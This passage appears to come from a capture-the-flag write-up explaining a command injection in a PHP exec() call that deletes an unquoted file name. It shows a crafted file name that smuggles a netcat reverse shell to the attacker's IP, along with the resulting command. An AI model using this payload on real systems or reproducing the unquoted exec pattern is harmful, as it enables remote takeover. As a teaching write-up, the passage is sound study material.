 ![Img](images/check-attack.png)

Now the thing which will help me get user `guly` is this vulnerable line of code:

```php
<?php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
?>
```

THe vulnerability lies on the fact that `$value` is the name of the file, which should be inserted on the command within quotes. This is because one could have a file named `; nc 10.10.12.249 1234 -c bash;#` that, when inserted on the command, would result in:

```php
<?php
exec("nohup /bin/rm -f $path; nc 10.10.12.249 1234 -c bash;# > /dev/null 2>&1 &");
?>
```
